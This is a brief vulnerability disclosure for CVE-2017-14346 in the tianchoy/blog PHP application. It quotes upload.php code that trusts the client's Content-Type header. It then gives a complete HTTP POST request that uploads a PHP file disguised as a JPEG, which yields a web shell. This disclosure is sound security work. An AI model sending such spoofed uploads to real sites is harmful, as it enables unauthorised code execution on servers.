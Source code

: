 ## powered by sebao from 404team ##

**CVE-2017-14346**

tianchoy/blog allows remote attackers to unauthentication of administrators for requests that upload PHP files. 


## Vulnerability link ##

https://github.com/tianchoy/blog

## Vulnerability details ##

in upload.php Line 11

	  switch($type){
	  case 'image/pjpeg': $ok=1;
	       break;
	case'image/png' : $ok=1;
	   break;
	case 'image/gif' :$ok=1;
	   break;
	case 'image/jpeg' :$ok=1;
	   break; 
	 } 
	 if($ok && $error=='0'){
	  move_uploaded_file($tmp_name,'images/'.$name);  
	   echo "ok";
	} else{
	 echo "fail!";      //非图片格式，给出提示
	      }
	 }
	}

this code only check the file content-type. if attackers set content-type to image/jpeg can upload any file.for example php file

exploit:



	POST /upload.php HTTP/1.1
	Host: loclahost
	User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
	Accept-Encoding: gzip, deflate
	Content-Type: multipart/form-data; boundary=---------------------------140872878228742
	Content-Length: 208
	Connection: close
	Upgrade-Insecure-Requests: 1
	
	-----------------------------140872878228742
	Content-Disposition: form-data; name="upfile"; filename="shell.php"
	Content-Type: image/jpeg
	
	<?php phpinfo();?>
	-----------------------------140872878228742--

then the shell url is `http://localhost/images/shell.php`

